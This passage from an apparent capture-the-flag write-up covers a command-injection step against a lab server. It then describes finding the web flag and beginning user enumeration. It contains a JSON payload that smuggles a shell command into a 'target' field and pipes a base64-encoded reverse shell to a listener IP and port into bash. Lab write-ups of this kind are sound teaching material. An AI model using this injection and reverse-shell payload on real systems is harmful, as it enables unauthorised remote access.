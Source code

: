 Next, we send in the following payload:

```
{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC40LjYuMjA1LzQ0NDQgMD4mMQo= | base64 -d | bash; \""}
```

The server will thus decode our reverse shell command, then pipe it over to bash to be run.

The reverse shell was then successfully opened:

<img style="float: left;" src="screenshots/screenshot12.png">

We're in! :smiley:

We can find the **web flag** in /var/www:

<img style="float: left;" src="screenshots/screenshot13.png">

---

### [ What is the user flag? ]

Moving over to the /home directory, we can see the 2 users that we enumerated earlier on:

<img style="float: left;" src="screenshots/screenshot14.png">

Unfortunately, we do not have the permissions to navigate into their directories.

Next, I dug around the machine to see if I could find any interesting files or directories. Moving back to /var/www/files, I found the 3 files that were returned to us on the website earlier:

<img style="float: left;" src="screenshots/screenshot15.png">
